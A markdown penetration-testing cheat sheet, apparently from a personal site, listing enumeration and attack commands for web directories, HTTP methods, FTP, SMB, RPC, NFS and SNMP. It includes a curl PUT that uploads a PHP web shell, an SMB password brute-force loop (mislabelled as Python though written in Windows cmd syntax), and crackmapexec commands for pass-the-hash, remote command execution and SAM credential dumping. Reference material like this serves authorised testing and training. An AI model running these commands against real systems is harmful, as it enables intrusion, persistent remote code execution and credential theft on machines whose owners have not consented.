 ```yaml
---
title: Exploitation
excerpt: "This is a guide for exploitation"
last_modified_at: 13-01-2022
categories:
- guide
tags:  
- pentest
- methodologies
- recon
- enumeration
---
```


# Enumeration  

## Brute force directory/pages/files
```bash
gobuster dir -e -u 172.16.1.10/ -w /usr/share/wordlists/dirb/big.txt -s "200,301,302,401" .

gobuster dir -e -u http://172.16.1.10/turismo -w /usr/share/wordlists/dirb/small.txt -x .php,.txt,.sql,.bkp  #Search by extensions.

gobuster dir -e -u 192.168.0.7 -w wordlist -x .php -c cookie # Pass cookie
```  

Another tools:
* Dirsearch
* Dirb
* Dirbusters  

File extensions to search:
    - Web :.pl,.cgi,.sh,.php,.jsp,.asp,.aspx,.js,.html,.nm
    - Backups:.bkp,.bak,.sql
    - Files:.pdf,.txt,.conf,.xml  

Robots.txt/sitemap.xml are importants file that contains directories that are not indexed.

## Methods allowed
```bash
curl -v -X OPTIONS http://172.16.1.10/ # Will show all methods
```  

Put method
```bash
curl -v -X PUT -d "<?php system(\$_GET["cmd"]); ?>" http://172.16.1.10/webdav/shell.php
```  

## FTP
Commons credentials:
* User:anonymous, pass:anonymous  


## SMB
Permit share directories and files. Port 139 -> NetBIOS, port 445 -> SMB over TCP
Links:  
* [Hacktricks SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)

### Windows
```bash
nbtstat -A 172.16.1.4 # show name, group, etc...

net view \\172.16.1.5 # Try to connect

net view \\172.16.1.5 "" u:"" # Null session logon

net use h: \\172.16.1.5\opt # Mount the folder in h:

nbtstat -c # Cache of all old connections
```  
```python
#Python brute force
for /f %i in (passwords.txt) do net use \\172.16.1.4 %i /u:john
```  

### Linux
```bash
nbtscan -r 172.16.1.0/24 # Search in range

smbclient  -L \\172.16.1.5 -N # Connect in anonymous mode

smbclient   //172.16.1.5/_DOCS -N # Connect in a directory

smbclient  -L \\172.16.1.5 -N —option='client min protocol=NT1' # Sometimes can have a version incompatibility with older versions

crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
crackmapexec smb 192.168.10.11 -u Administrator -p 'password' -x whoami #Execute cmd
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
```  
Automatic enumeration : [enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
```bash
enum4linux -U 172.16.1.5 # Without users

enum4linux -a 172.16.1.5 # All
```  
## RPC Remote proccedure call
API to call commands in another machines.  
```bash
rpcclient -U "" -N 172.16.1.5 # Anonymous login
# After connect
enumdomusers # Enumerate users
queryuser jonh
```  
## NFS Network file system 
Protocol to share files. Port 2049
```bash
rpcinfo -p 172.16.1.5 | grep nfs # Check versions

showmount -e 172.16.1.5 # Show shared

mount -t nfs -o nfsverscat=2 172.16.1.5:/ /tmp/nfs #Mount the nfs
```  

## SNMP Simple Network Management protocol
Protocol used to monitor different devices in the network (like routers, switches, printers, IoTs...). Ports: 161,162,10161,10162/UDP
Links:  
* [Hacktricks snmp](https://book.hacktricks.xyz/pentesting/pentesting-snmp)
* [objectid list](https://www.alvestrand.no/objectid/1.3.6.1.2)

```bash
onesixtyone -c comu.txt 172.16.1.0/24 # Search by open hosts with communities

snmpwalk -c public -v1 172.16.1.4 1.3.6.1.4.1.77.1.2.25  # Search with public community and specific code

snmp-check 172.16.1.4 -c public # Show info of host
```  

## WAF Web application firewall

```bash
WAFW00F google.com
```